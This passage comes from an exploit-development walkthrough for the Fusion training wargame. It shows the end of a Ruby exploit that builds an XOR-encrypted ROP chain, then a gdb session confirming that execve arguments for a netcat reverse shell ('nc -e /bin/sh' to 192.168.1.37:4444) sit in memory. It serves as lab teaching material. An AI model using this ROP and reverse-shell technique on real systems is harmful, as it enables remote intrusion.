   # The first argument of execve, the filename
  data += cmd + null

  # Create each of the argument strings
  args.each { |arg| data += arg + null }

  ropbuf = [0x0804952d].pack('V') # addr of nread
  ropbuf += [0x08048f85].pack('I') # return address, also pop;pop;pop
  ropbuf += [0x00000000].pack('I') # arg0: filedes
  ropbuf += [0x0804b420].pack('V') # arg1: buf ptr
  ropbuf += [data.length].pack('I') # arg2: length

  # Placeholder for second ROP chain
  ropbuf += [0xdeadbeef].pack('I') # return of new frame address

  buf = prejunk + ropbuf
  e = xor_encrypt(buf, key)
  encrypt(e.length, e)

  # Send the quit command
  sock.put('Q')

  # Send extra data for the rop chain to read
  sock.put(data)

  disconnect
end
{% endhighlight %}

Attach gdb, reload the exploit, and send it. Inspect the data is read in as expected:
{% highlight bash %}
root@fusion:/home/fusion# gdb -q
0xb7750424 in __kernel_vsyscall ()
(gdb) c
Continuing.
[New process 32663]

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 32663]
0xdeadbeef in ?? ()
(gdb) x/6wx 0x0804b420
0x804b420 <environ@@GLIBC_2.0>: 0x0804b44c  0x0804b460  0x0804b463  0x0804b46b
0x804b430:  0x0804b478  0x00000000
(gdb) x/s 0x0804b44c
0x804b44c:  "/bin/nc.traditional"
(gdb) x/s 0x0804b460
0x804b460 <keyed.5339>: "-e"
(gdb) x/s 0x0804b463
0x804b463 <keyed.5339+3>: "/bin/sh"
(gdb) x/s 0x0804b46b
0x804b46b:  "192.168.1.37"
(gdb) x/s 0x0804b478
0x804b478:  "4444"
(gdb)
{% endhighlight %}

